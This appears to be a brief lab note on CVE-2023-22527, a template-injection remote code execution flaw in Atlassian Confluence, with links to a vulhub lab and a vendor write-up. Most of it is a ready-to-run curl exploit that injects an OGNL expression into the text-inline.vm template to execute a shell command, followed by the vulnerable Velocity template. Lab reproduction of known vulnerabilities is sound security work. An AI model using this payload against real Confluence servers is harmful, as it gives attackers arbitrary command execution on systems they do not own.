 # CVE-2023-22527

https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22527/
https://projectdiscovery.io/blog/atlassian-confluence-ssti-remote-code-execution


```
curl -H "Content-Type: application/x-www-form-urlencoded" \
  -X POST http://localhost:8090/template/aui/text-inline.vm \
  -d "label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))"
```

/opt/atlassian/confluence/confluence/template/aui/text-inline.vm

``` vtl
#set( $labelValue = $stack.findValue("getText('$parameters.label')") )
#if( !$labelValue )
    #set( $labelValue = $parameters.label )
#end

#if (!$parameters.id)
    #set( $parameters.id = $parameters.name)
#end

<label id="${parameters.id}-label" for="$parameters.id">
$!labelValue
#if($parameters.required)
    <span class="aui-icon icon-required"></span>
    <span class="content">$parameters.required</span>
#end
</label>

#parse("/template/aui/text-include.vm")
```